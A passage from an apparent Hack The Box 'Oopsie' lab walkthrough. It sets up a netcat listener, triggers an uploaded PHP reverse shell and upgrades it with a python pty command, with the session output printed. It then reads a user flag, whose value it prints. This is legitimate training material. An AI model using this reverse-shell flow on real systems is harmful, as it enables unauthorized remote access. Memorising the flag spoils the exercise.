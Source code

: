 ![[Pasted image 20241006234510.png]]

But first, we will need to set up a netcat connection (with the port we have set in the uploaded reverse shell php script):
`nc -lvnp 1234`

Then request our shell through the browser url bar:
`http://10.129.95.191/uploads/php-reverse-shell.php`

And upon checking our listening netcat terminal, we can see a successfully connection attempt:

![[Pasted image 20241006235043.png]]

In order to have a functional shell though we can issue the following command:
`python3 -c 'import pty;pty.spawn("/bin/bash")'`

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.41]─[scrage@htb-nwibs5ztwj]─[~]
	└──╼ [★]$ nc -lvnp 1234
	listening on [any] 1234 ...
	connect to [10.10.14.41] from (UNKNOWN) [10.129.95.191] 39326
	Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
	 21:49:53 up  1:07,  0 users,  load average: 0.00, 0.00, 0.00
	USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
	uid=33(www-data) gid=33(www-data) groups=33(www-data)
	/bin/sh: 0: can't access tty; job control turned off
	$ python3 -c 'import pty;pty.spawn("/bin/bash")'
	www-data@oopsie:/$ whoami
	whoami
	www-data
	www-data@oopsie:/$ 

## Lateral Movement

### Casually finding the user flag
Upon wandering into the `home` directory, after a little sniffing around, we find straight leads to the user flag:

	www-data@oopsie:/home$ ls
	ls
	robert
	www-data@oopsie:/home$ cd robert
	cd robert
	www-data@oopsie:/home/robert$ ls
	ls
	user.txt
	www-data@oopsie:/home/robert$ cat user.txt
	cat user.txt
	f2c74ee8db7983851ab2a96a44eb7981

**User flag exfiltrated:** `f2c74ee8db7983851ab2a96a44eb7981`

